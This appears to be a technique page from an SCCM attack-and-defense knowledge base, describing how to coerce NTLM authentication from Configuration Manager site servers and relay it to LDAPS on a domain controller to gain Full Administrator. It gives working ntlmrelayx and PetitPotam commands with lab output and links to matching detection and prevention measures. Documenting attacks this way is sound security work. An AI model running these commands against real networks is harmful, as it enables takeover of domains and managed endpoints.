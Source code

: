 # TAKEOVER-8
## Description
Hierarchy takeover via NTLM coercion and relay HTTP to LDAP on domain controller

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-8.1: Coerce primary site server 
    - TAKEOVER-8.2: Coerce SMS Provider
    - TAKEOVER-8.3: Coerce passive site server
    - TAKEOVER-8.4: Coerce site database server
- Connectivity from the coercion target to any port on the relay server
- The relay server is in the intranet zone and has a valid NetBIOS name or FQDN (e.g., via ADIDNS poisoning if using a network implant)
- Coercion target settings:
    - The `WebClient` service is installed and started [INSTALLED BY DEFAULT ON WINDOWS WORKSTATIONS]
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
    - Domain computer account is not `is sensitive and cannot be delegated` [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to LDAP or LDAPS on the relay target, the domain controller
- Relay target settings:
    - Either LDAP signing or channel binding is not required on the domain controller [DEFAULT]
    - `RestrictReceivingNTLMTraffic` = `0` or not present [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

- For resource-based constrained delegation:
    - Control of an account's SPN

        OR

    - `MachineAccountQuota` > `0` and domain users permitted to add computer accounts [DEFAULT]

## Summary
An attacker who is able to successfully coerce NTLM authentication from the Active Directory domain computer account for a primary site server, system hosting the SMS Provider role, or passive site server via HTTP and relay it to LDAP on a domain controller can conduct resource-based constrained delegation (RBCD) or shadow credentials attacks to compromise the server, then connect to:
- MSSQL on the site database as the site server or SMS Provider (see [TAKEOVER-1](../TAKEOVER-1/takeover-1_description.md))
- SMB on the site database as the site server (see [TAKEOVER-2](../TAKEOVER-2/takeover-2_description.md))
- SMB on the SMS Provider as the site server (see [TAKEOVER-6](../TAKEOVER-6/takeover-6_description.md))
- SMB on the site database server or an SMS Provider as itself
- SMB on the primary site server as a passive site server, or vice versa (see [TAKEOVER-7](../TAKEOVER-7/takeover-7_description.md))

The attacker can use these permissions to grant an arbitrary domain account the SCCM "Full Administrator" role.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-13: Require LDAP channel binding and signing](../../../defense-techniques/PREVENT/PREVENT-13/prevent-13_description.md)
- [PREVENT-16: Remove SeMachineAccountPrivilege and set MachineAccountQuota to 0 for non-admin accounts](../../../defense-techniques/PREVENT/PREVENT-16/prevent-16_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-8.1: Coerce primary site server 
- TAKEOVER-8.2: Coerce SMS Provider
- TAKEOVER-8.3: Coerce passive site server
- TAKEOVER-8.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-8.1 through TAKEOVER-8.4 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the domain controller and the LDAPS service and specifying options to conduct a resource-based constrained delegation attack:
    ```
    # impacket-ntlmrelayx --no-smb-server --no-wcf-server --no-raw-server -ts -ip <NTLMRELAY_LISTENER_IP> -t ldaps://<DOMAIN_CONTROLLER_IP> --http-port 8080 --no-da --delegate-access
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-28 20:31:35] [*] Protocol Client MSSQL loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client RPC loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMB loaded..
    [2024-02-28 20:31:36] [*] Protocol Client DCSYNC loaded..
    [2024-02-28 20:31:38] [*] Running in relay mode to single host
    [2024-02-28 20:31:38] [*] Setting up HTTP Server on port 8080

    [2024-02-28 20:31:38] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the coercion target via HTTP, targeting the relay server's IP address and the specified port:
    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p <PASSWORD> <NTLMRELAYX_NETBIOSNAME>@8080/a <COERCION_TARGET_IP>            

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an HTTP connection on the relay server that is forwarded to the domain controller to execute the RBCD attack:
    ```
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, attacking target ldaps://192.168.57.100
    [2024-02-28 21:01:54] [*] HTTPD(8080): Authenticating against ldaps://192.168.57.100 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-28 21:01:54] [*] Enumerating relayed user's privileges. This may take a while on large domains
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-28 21:01:55] [*] Attempting to create computer in: CN=Computers,DC=MAYYHEM,DC=LOCAL
    [2024-02-28 21:01:55] [*] Adding new computer with username: FCDQZAOC$ and password: OHG^rQ.yl8KcFAC result: OK
    [2024-02-28 21:01:55] [*] Delegation rights modified succesfully!
    [2024-02-28 21:01:55] [*] FCDQZAOC$ can now impersonate users on SITE-SERVER$ via S4U2Proxy
    ```

4. Obtain a service ticket for the created or specified account with an SPN, impersonating the coercion target.

5. Pass the ticket, access the coercion target, escalate to `SYSTEM`, and connect to:
- MSSQL on the site database as a site server or SMS Provider ([TAKEOVER-1](../TAKEOVER-1/takeover-1_description.md))
- AdminService on an SMS Provider as a site server ([TAKEOVER-2](../TAKEOVER-2/takeover-2_description.md))
- SMB on the site database or an SMS Provider as a site server ([TAKEOVER-6](../TAKEOVER-6/takeover-6_description.md))
- SMB on the site database server or an SMS Provider as itself
- SMB on the site server as a passive site server, or vice versa ([TAKEOVER-7](../TAKEOVER-7/takeover-7_description.md))

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Elad Shamir, [Wagging the Dog: Abusing Resource-based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- Garrett Foster, [SCCM Hierarchy Takeover with High Availability](https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43)
